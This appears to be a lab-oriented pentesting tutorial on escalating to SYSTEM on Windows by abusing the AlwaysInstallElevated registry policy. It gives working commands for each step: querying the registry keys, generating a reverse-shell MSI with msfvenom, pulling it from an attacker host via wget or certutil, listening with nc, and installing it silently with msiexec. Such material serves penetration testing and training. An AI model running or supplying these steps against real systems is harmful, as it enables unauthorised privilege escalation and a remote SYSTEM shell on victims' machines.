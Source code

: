 

## 📖 What is `AlwaysInstallElevated`?

Windows has two registry keys that, when both set to `1`, allow **any user** to run `.msi` installer files **with SYSTEM privileges**.
Windows has these 2 keys:
```
HKCU\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
If both are set to `1`, **any user can install MSI packages with SYSTEM privileges**.


#### **📍 Check if the system is vulnerable**

Run the following commands **on the target machine**:

> **reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**
> 
> **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated**

**Vulnerable** if both return:

`AlwaysInstallElevated REG_DWORD 0x1`

#### **📍 Step 1: Generate a malicious MSI payload**

On your **attacker machine (Kali/Parrot):**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```

- `-p`: Payload type (`shell_reverse_tcp`)
- `LHOST`: Your attack machine’s IP (typically `tun0` in VPNs like HackTheBox)
- `LPORT`: The port you’ll listen on
- `-f msi`: Output format is an MSI installer

This creates a file `shell.msi` that will **connect back to you as SYSTEM** when installed.

#### **📍 Step 2: Transfer the MSI to the victim**

On the victim’s **PowerShell**:
```bash
# wget 
wget http://<YOUR-IP>/shell.msi -o shell.msi

# certutil
certutil -urlcache -split -f "http://10.17.68.184:8000/shell.msi" shell.msi
```

📍 Step 3: Install the MSI with SYSTEM privileges
on Attacker machine run 
```
rlwrap -f . -r nc -lvnp 445
```

on target machine run it
```bash
msiexec /quiet /qn /i C:\Temp\shell.msi
```

- `msiexec`: The Windows Installer program
- `/quiet /qn`: No user interface
- `/i`: Install the MSI

Since **AlwaysInstallElevated is enabled**, this **runs as SYSTEM** even from a low-privileged account.